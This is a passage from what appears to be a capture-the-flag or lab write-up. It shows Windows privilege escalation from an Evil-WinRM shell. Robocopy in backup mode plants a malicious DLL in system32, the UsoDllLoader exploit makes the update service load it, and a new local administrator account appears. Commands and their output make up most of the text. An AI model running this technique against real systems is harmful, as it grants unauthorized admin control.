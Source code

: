 ```
*Evil-WinRM* PS C:\temp> robocopy /b system32 c:\windows\system32

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, September 11, 2020 5:10:01 PM
   Source : C:\temp\system32\
     Dest : c:\windows\system32\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                   2	C:\temp\system32\
	*EXTRA Dir        -1	c:\windows\system32\0409\
	*EXTRA Dir        -1	c:\windows\system32\ADDSDeployment_Internal\
	*EXTRA Dir        -1	c:\windows\system32\adprep\
	*EXTRA Dir        -1	c:\windows\system32\AdvancedInstallers\
[...]
	  *EXTRA File 		   30720	ztrace_maps.dll
	    New File  		  278213	WindowsCoreDeviceInfo.dll
```

To trigger the DLL file, we'll use the UsoDllLoader exploit (we can ignore the error messages).

```
*Evil-WinRM* PS C:\temp> .\usodllloader.exe
[*] Using UpdateOrchestrator->StartScan()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartScan'... Done.
[-] Unable to connect to server!
[*] Retrying with UpdateOrchestrator->StartInteractiveScan()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartInteractiveScan'... Done.
[-] Unable to connect to server!
[*] Retrying with UpdateOrchestrator->StartDownload()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartDownload'... Done.
[-] Unable to connect to server!
[-] Exploit failed.

```

We now see that our user has been created, with local admin rights:

```
*Evil-WinRM* PS C:\temp> net users snowscan
User name                    snowscan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/11/2020 5:10:46 PM
Password expires             10/23/2020 5:10:46 PM
Password changeable          9/12/2020 5:10:46 PM
Password required            Yes
```